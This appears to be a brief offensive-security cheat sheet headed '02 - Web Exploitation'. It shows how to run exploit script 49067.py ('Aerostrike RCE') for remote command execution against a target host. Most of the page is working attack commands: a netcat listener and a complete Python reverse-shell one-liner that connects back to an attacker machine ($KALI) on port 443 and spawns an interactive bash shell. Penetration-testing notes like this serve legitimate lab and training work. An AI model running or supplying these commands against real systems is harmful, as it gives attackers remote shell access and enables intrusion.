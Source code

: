# 02 - Web Exploitation

Index
- [Example: reverse shell](#Example-reverse-shell)
    - [ID 49067 RCE and Reverse Shell](#ID-49067-RCE-and-Reverse-Shell)

## Example: reverse shell
### ID 49067 RCE and Reverse Shell
Aerostrike RCE:
``` bash
python 49067.py --ahost 192.168.1.1 -aport 3000 --cmd "id"
```
Python Reverse Shell example:
``` bash
## require nc listener: nc -nvlp 443
python 49067.py --ahost 192.168.1.1 --cmd "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$KALI\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'"
```